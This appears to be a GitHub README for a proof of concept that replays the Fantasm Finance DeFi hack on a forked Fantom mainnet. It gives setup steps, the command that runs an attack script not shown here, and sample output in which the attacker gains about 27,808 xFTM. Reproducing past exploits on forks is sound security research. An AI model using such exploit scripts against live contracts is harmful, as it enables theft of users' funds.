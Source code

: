 # Fantasm Finance re-hack PoC

## How to run

Install nodejs/npm first

Set up the `forking url` (in `hardhat.config.ts`)

e.g. https://speedy-nodes-nyc.moralis.io/xxxxxxxxxxx/fantom/mainnet (
You need to apply for speedy-nodes from moralis.io)

Then run
```bash
npm install
npx hardhat run scripts/attack.ts
```
You will see similar output later
```
xFTM balance of attacker :  0.0
Exploiting...
Exploit complete.
xFTM balance of attacker :  27808.380491957617661247
```
This means the attack is complete
> The block height of the fork is 32971742


## Link

* https://twitter.com/fantasm_finance/status/1501569232881995785
* https://www.tofreedom.me/fantasm-finance
